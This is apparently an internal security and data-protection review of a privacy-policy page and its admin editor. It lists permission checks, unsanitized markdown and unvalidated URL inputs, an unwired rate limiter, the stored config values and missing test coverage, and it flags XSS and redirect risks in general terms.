- Route `/privacy-policy` (public) renders the markdown; `PrivacyPolicySection` (admin) edits + previews.

### Quality control

Edit the policy → public page updates; `PRIVACY_POLICY_URL` can redirect instead.

### Security

Page public; editor admin.

**Coverage:**
- **Auth:** public page `/privacy-policy` renders anonymously; admin editor (`PrivacyPolicySection`) edits `PRIVACY_POLICY_CONTENT`/`PRIVACY_POLICY_URL` via admin site-config write routes (`auth()` + `checkPermission(PERMISSIONS.ADMIN)`).
- **Authorization:** `MANAGE_USERS` for editing; public page read has no permission check.
- **Input validation:** Joi on site-config write (`value` is `Joi.any()` — markdown not sanitized server-side); `PRIVACY_POLICY_URL` not URL-validated server-side (sanitization relies on the frontend markdown renderer).
- **Rate limiting:** not applied — `authLimiter` defined but not wired.
- **Secrets:** none — policy markdown/URL are non-secret public content.

**Risks:**
- **Markdown XSS:** if `PRIVACY_POLICY_CONTENT` markdown is rendered without sanitization, an admin (or compromised admin) could inject scripts into a page visited by every user for legal/trust reasons.
- **Redirect abuse via `PRIVACY_POLICY_URL`:** if `PRIVACY_POLICY_URL` can be set to an external URL, an attacker with admin access could redirect the privacy policy to a phishing page, undermining legal trust.

### Data protection

Policy markdown only.

**Coverage:**
- **Stored data:** `PRIVACY_POLICY_CONTENT` (markdown string) and `PRIVACY_POLICY_URL` (string) in `site_configs` (scope `site`, `secret: false`); edit-history snapshots in `SiteConfigSnapshot`.
- **PII:** no — legal text only; no user data stored.
- **Retention:** indefinite — public config values persist until edited/restored.
- **Encryption:** none — plaintext public config (non-secret).
- **Logging:** none / N/A — no logging of policy content.

**Risks:**
- **Legal-text tampering:** unauthorized edits to the published policy could change stated data-handling commitments, creating legal exposure and misleading users about what their data is used for.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises the `/privacy-policy` page render, `PrivacyPolicySection` editor, preview, or history)
- **Unit (Jest):** none